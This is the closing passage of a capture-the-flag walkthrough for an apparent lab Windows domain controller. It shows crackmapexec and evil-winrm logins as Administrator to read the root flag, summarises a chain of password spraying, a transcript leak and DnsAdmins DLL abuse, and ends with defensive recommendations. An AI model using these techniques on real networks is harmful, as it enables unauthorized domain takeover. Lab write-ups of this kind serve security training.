

4. Authenticate as **Administrator** with the new password over **WinRM**.

```bash
crackmapexec winrm 10.129.96.155 -u Administrator -p 'admin123@'
```



```powershell
evil-winrm -i 10.129.96.155 -u Administrator -p 'admin123@'
whoami
cd ..\Desktop
type root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Identified DC services; **WinRM**, **LDAP**, **SMB**.  
2. **SMB Enumeration** → No useful guest share access.  
3. **LDAP** → Default password hint in user metadata; **password spray** → **`melanie`**.  
4. **WinRM** → Shell as **`melanie`**; **user flag**.  
5. **`C:\PSTranscripts`** → Transcript leak → **`ryan`**.  
6. **`ryan`** in **`DnsAdmins`** → **DNS plugin DLL** + service restart → reset **Administrator** password.  
7. **WinRM** as **Administrator** → **root flag**.

---
## Defensive Recommendations

- **LDAP:** Do not store default passwords or sensitive onboarding text in **`description`** / discoverable attributes; restrict anonymous **LDAP** where not required.  
- **Password policy:** Enforce sensible **lockout** in production; monitor for **password spray** patterns across many users.  
- **Transcription / logging:** Avoid secrets on the command line; restrict access to transcript and log directories.  
- **DnsAdmins:** Treat membership as **highly privileged**; monitor **`ServerLevelPluginDll`** and DNS service restarts; limit who can modify DNS service configuration.  
- **WinRM:** Restrict **Remote Management Users**; use admin hardening and **MFA** for privileged accounts where applicable.
